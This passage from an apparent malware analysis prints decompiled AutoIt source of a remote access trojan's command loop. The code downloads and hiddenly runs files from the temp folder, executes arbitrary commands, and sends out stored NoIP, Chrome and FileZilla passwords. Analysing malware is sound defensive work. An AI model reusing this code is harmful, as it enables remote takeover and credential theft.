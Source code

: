 ```
			cn()
			sd("lv" & $y & $name & $y & k() & $y & $os & $y & $vr & $y & $usb & $y & WinGetTitle(""))
		Case $pk = ""
			$timer += 1
			If $timer = 8 Then
				$timer = 0
				$ea = WinGetTitle("")
				If $ea <> $ac Then
					sd("ac" & $y & $ea)
				EndIf
				$ac = $ea
				$ea = ""
			EndIf
		Case $pk <> ""
			$a = StringSplit($pk, "0njxq80", 1)
			If $a[0] > 0 Then
				Select 
					Case $a[1] = "DL"
						InetGet($a[2], @TempDir & "\" & $a[3], 1)
						If FileExists(@TempDir & "\" & $a[3]) Then
							ShellExecute("cmd.exe", "/c start %temp%\" & $a[3], "", "", @SW_HIDE)
							sd("MSG" & $y & "Executed As " & $a[3])
						Else
							sd("MSG" & $y & "Download ERR")
						EndIf
					Case $a[1] = "up"
						InetGet($a[2], @TempDir & "\" & $a[3], 1)
						If FileExists(@TempDir & "\" & $a[3]) Then
							ShellExecute("cmd.exe", "/c start %temp%\" & $a[3], "", "", @SW_HIDE)
							uns()
						EndIf
						sd("MSG" & $y & "Update ERR")
					Case $a[1] = "un"
						uns()
					Case $a[1] = "ex"
						Execute($a[2])
					Case $a[1] = "cmd"
						ShellExecute("cmd.exe", $a[2], "", "", @SW_HIDE)
					Case $a[1] = "pwd"
						sd("PWD" & $y & noip() & chrome() & filezilla())
				EndSelect
			EndIf
	EndSelect
	Sleep(1000)
WEnd
...
```

Within the decompiled source code, the C2 IP and port can be found. Additionally, an interesting string can be found on variable `$y`.
